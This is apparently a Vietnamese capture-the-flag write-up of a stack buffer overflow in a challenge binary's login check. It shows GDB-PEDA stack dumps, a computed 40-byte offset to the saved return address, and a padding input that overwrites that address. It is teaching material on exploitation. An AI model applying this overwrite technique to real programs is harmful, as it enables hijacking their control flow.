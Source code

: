 Đầu tiên, đặt 1 breakpoint tại địa chỉ 0x0000000000400827 <check_login+182> bằng lệnh `b*0x0000000000400827`.
Sau đó nhập lệnh `run` để chạy chương trình. Nhập username là `admin`, mật khẩu là `password`. 

Chương trình sẽ dừng ở breakpoint đã đặt:
![Screenshot](../screenshots/pwn1.png?raw=true "Screenshot")

Tiếp tục nhập lệnh `telescope 20` để xem trạng thái của stack lúc này
```
gdb-peda$ telescope 20
0000| 0x7fffffffdf70 --> 0x6e696d6461 ('admin')
0008| 0x7fffffffdf78 --> 0x7ffff7fb16a0 --> 0xfbad2a84 
0016| 0x7fffffffdf80 --> 0x400a70 ("Please help me get flag on the server. ")
0024| 0x7fffffffdf88 --> 0x7ffff7fb16a0 --> 0xfbad2a84 
0032| 0x7fffffffdf90 ("password")
0040| 0x7fffffffdf98 --> 0x0 
0048| 0x7fffffffdfa0 --> 0x400660 (<_start>:	xor    ebp,ebp)
0056| 0x7fffffffdfa8 --> 0x400900 (<__libc_csu_init>:	push   r15)
0064| 0x7fffffffdfb0 --> 0x7fffffffdfc0 --> 0x0 
0072| 0x7fffffffdfb8 --> 0x4008ef (<main+89>:	mov    eax,0x0)
0080| 0x7fffffffdfc0 --> 0x0 
0088| 0x7fffffffdfc8 --> 0x7ffff7dec0b3 (<__libc_start_main+243>:	mov    edi,eax)
0096| 0x7fffffffdfd0 --> 0x7ffff7ffc620 --> 0x5042900000000 
0104| 0x7fffffffdfd8 --> 0x7fffffffe0b8 --> 0x7fffffffe3d1 ("/home/minhgalaxy/Desktop/pwn3")
0112| 0x7fffffffdfe0 --> 0x100000000 
0120| 0x7fffffffdfe8 --> 0x400896 (<main>:	push   rbp)
0128| 0x7fffffffdff0 --> 0x400900 (<__libc_csu_init>:	push   r15)
0136| 0x7fffffffdff8 --> 0xf05ba30dd57f78bc 
0144| 0x7fffffffe000 --> 0x400660 (<_start>:	xor    ebp,ebp)
0152| 0x7fffffffe008 --> 0x7fffffffe0b0 --> 0x1
```

Có thể thấy `password` đã nhập nằm ở địa chỉ `0x7fffffffdf90` và địa chỉ trở về hàm main nằm ở địa chỉ `0x7fffffffdfb8`.

Để có thể fill hết vùng nhớ này cần `0x7fffffffdfb8 - 0x7fffffffdf90 = 40 bytes`.

Thử nhập lệnh `run` lại lần nữa, lần này nhập password là
```python
'A'*40 + 'ABCDABCD'
```
Kết quả nhận được như sau:
```
gdb-peda$ telescope 20
0000| 0x7fffffffdf70 --> 0x6e696d6461 ('admin')
0008| 0x7fffffffdf78 --> 0x7ffff7fb16a0 --> 0xfbad2a84 
0016| 0x7fffffffdf80 --> 0x400a70 ("Please help me get flag on the server. ")
0024| 0x7fffffffdf88 --> 0x7ffff7fb16a0 --> 0xfbad2a84 
0032| 0x7fffffffdf90 ('A' <repeats 41 times>, "BCDABCD")
0040| 0x7fffffffdf98 ('A' <repeats 33 times>, "BCDABCD")
0048| 0x7fffffffdfa0 ('A' <repeats 25 times>, "BCDABCD")
0056| 0x7fffffffdfa8 ('A' <repeats 17 times>, "BCDABCD")
0064| 0x7fffffffdfb0 ("AAAAAAAAABCDABCD")
0072| 0x7fffffffdfb8 ("ABCDABCD")
0080| 0x7fffffffdfc0 --> 0x0 
0088| 0x7fffffffdfc8 --> 0x7ffff7dec0b3 (<__libc_start_main+243>:	mov    edi,eax)
0096| 0x7fffffffdfd0 --> 0x7ffff7ffc620 --> 0x5042900000000 
0104| 0x7fffffffdfd8 --> 0x7fffffffe0b8 --> 0x7fffffffe3d1 ("/home/minhgalaxy/Desktop/pwn3")
0112| 0x7fffffffdfe0 --> 0x100000000 
0120| 0x7fffffffdfe8 --> 0x400896 (<main>:	push   rbp)
0128| 0x7fffffffdff0 --> 0x400900 (<__libc_csu_init>:	push   r15)
0136| 0x7fffffffdff8 --> 0xf702324a68d95b46 
0144| 0x7fffffffe000 --> 0x400660 (<_start>:	xor    ebp,ebp)
0152| 0x7fffffffe008 --> 0x7fffffffe0b0 --> 0x1
```
Địa chỉ trả về đã bị ghi đè thành `ABCDABCD`
